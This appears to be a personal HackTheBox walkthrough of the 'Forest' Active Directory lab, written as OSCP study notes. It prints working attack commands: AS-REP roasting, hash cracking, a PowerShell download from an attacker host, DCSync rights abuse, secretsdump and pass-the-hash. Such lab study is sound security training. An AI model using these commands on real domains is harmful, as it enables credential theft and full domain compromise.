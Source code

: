 # Walkthrough
Name: Forest  
Date: 03/06/2022  
Difficulty: Easy / User Average: Medium  
Description: Retired Staff Pick Active Directory machine  
Better Description:  
Goals: OSCP Prep, revise DNS, LDAP, SMB, RPC enumeration; Revise AD attacks from THM stuff.  
Learnt: Habits must change in note taking, I doing ok and the next improvements aren't far away just another 50 machines away.  

This is mainly a hand hold through this machine that will be redone at a later date to test myself. Need to revise and add to cheatsheets also while doing this it pulled up note taking vs writing habits. I will have on the same day uploaded another AD machine from HTB without Ippsec. Basically I love vim too much should use Obsidian more. Note then write stuff.

## Recon

Ran some of the recon weeks ago while reading, coding and hacking, still have some to do. Regardles with the original IP I started enumeration with a ping to check Time to Live field to do OS detection and see if the box responded to ICMP packets:
![ping](HackTheBox/Retired-Machines/Forest/Screenshots/ping.png)

`TTL for Windows is 128`, but also accept ICMP packets so no need to `-Pn` flag for nmap.

Went through my [SMB Cheatsheet](https://github.com/7RU7H/Archive/blob/main/Recon/Active-Information-Gathering/SMB/SMB-Recon-Cheatsheet.md) and found using rcp null attack. I had read about it from a cheatsheet and used it in a previous machine and was as amazed as when I learnt about anonymous FTP over a year ago. I am easily pleased.

```bash
rpcclient -U "" -N $IP
```

![rpc](Screenshots/rcpenum.png)
![rpc1](Screenshots/rcpenum-one.png)
![rpc2](Screenshots/rcpenum-two.png)

The above was some of the stuff I tried, found another cheatsheet to added to my current RPC Cheatsheet, while nmap ran:
```bash
nmap --script=ldap-search -p 389 --script-args ldap.maxobjects=-1 -oA nmap/ldap-search 10.129.95.210
```
Then tried some the ldapsearch from [LDAP Cheatsheet]()

```bash
ldapsearch -LLL -x -H ldap://htb.local -b '' -s base '(objectclass=*)' 
```
Lots of information and Ippsec reminding the wonders on wildcards and filtering. Changing `'(objectClass=Person)'`

```bash
ldapsearch -LLL -x -H ldap://htb.local -b 'DC=htb,DC=local' '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.txt
```
I noticed the `HTB\lucinda, HTB\svc-alfresco` User and services and checked them out.

Created a list of Users and Service Principle Names from enum4linux output, while considered how to extract information from extensive LDAP search output.
```bash
cat enumFourLinux.txt | grep "has member" | awk -F ' ' '{ print $8 }' | grep HTB > usersPlusSPNs.txt
```

## Exploit

Watched some Ippsec to learn mote and add more to my LDAP cheatsheet, then paused video to make users.txt; for password spraying. Deleting the excess machine accounts so as to not waste time password spraying with crackmapexec.
![cme-smb-pass-pol](Screenshots/cme-smb-pass-pol.png)
The account lockout threshold:0 means Bruteforcable

Using Ippsec knwoledge as a baseline my longawaited [Impacket cheatsheet]() started to take shape over the course today. Learnt about `GetNPUsers.py` and how for users that do not require Kerberos preauthentiation it can grab those hashes. And continued to follow along, while went back and refactored an idea about rule base methodologies as more advanced cheetsheat that could be used as a opposite to YARA rules, for red teaming plus some AI.

```bash
GetNPUSers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
Then cracked with:
```bash
hashcat hash -m 18200 /usr/share/wordlists/rockyou.txt  
```
![svc-cracked](Screenshots/svc-alfresco.png)

Then use the credentials to enumerate smb shares

![cme-share-enum](Screenshots/cme-enum-shares.png)

## Foothold

Then evil-winrm with those credentials onto the machine.

![user](Screenshots/user.png)

Then researched loads of impacket use cases, till I felt like I had a better idea about using it, then learnt how to setup a smb share with impacket-smbserver following along with the video:

```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

## PrivEsc

I instead of Bloodhound at first wanted to use [ADAPE](https://github.com/hausec/ADAPE-Script) and [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). Also general AD PrivEsc manually to add to me very lack luster Active Directory Privilege Escalation Cheastsheet.  I tried setting up an smbserver but I did not work then went to the trusty

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$ip:$port/powerview.ps1','C:\Users\svc-alfresco\Desktop\powerview.ps1')"
```

ADAPE requires `set-executionpolicy bypass`, which `svc-alfresco` user can't set. I tried I powerview.ps1 and then remember the pain of trying to get sharphound to work in the earlier part of this year to no success so also tried that. 
```bash
ulimit -n 40000 
# THEN
sudo neo4j console
# THEN goto localhost:7474
```
Default credentials
USER: neo4j
PASS: neo4j

```bash
cd /tmp; curl https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.4/SharpHound-v1.0.4.zip -oL SharpHound.zip

```
Use the same file transfer method as before
```powershell
.\SharpHound.exe -c all
```

```bash
bloodhound --no-sandbox
```
Following along with Ippsec after the agony of SharpHound maddness. I needed to get smbserver to work to transfer host a server. So went back to retry making smbserver. It felt amazing making that finally work. Wow.
Transfered the sharphound output zip file and dragged it into Bloodhound, watch some more Ippsec for how to go where to look - definately need to improve in this respect as to my person maentyal mapping to the groupings and how to fid weak points.

![bh](Screenshots/bloodhound.png)

Basically TL;DR/watch Ippsec explain is that the Account Operators Group can make accounts and svc-alfresco is part of that group and there is the Exchange server connected to it that the Account.
```powershell
net user $user $password /add /domain
net group "Exchange Windows Permissions" /add $user
```
My Bloodhound did not represent the chain to DC from Exchange Windows Permissions group, so I used the `Reachable Highest Value Targets` query here
This is not correct as some weird occured; following along 
![bh3](Screenshots/bh-weird.png)

![bh2](Screenshots/bh-abuse.png)

And the full glory of the Forest Machine and Bloodhound:

![bh4](Screenshots/fullglory.png)

Cool thing I already uploaded powerview! 

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
# What Bloodhound suggested, it did not work.
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
# Actual path: get the dev branch of PowerView
# add the the end of the git clone -b dev
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity wallace -Rights DCSync
# impacket tool secretsdump
impacket-secretsdump htb/$user:password@ip
crackmapexec smb $ip -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210

```




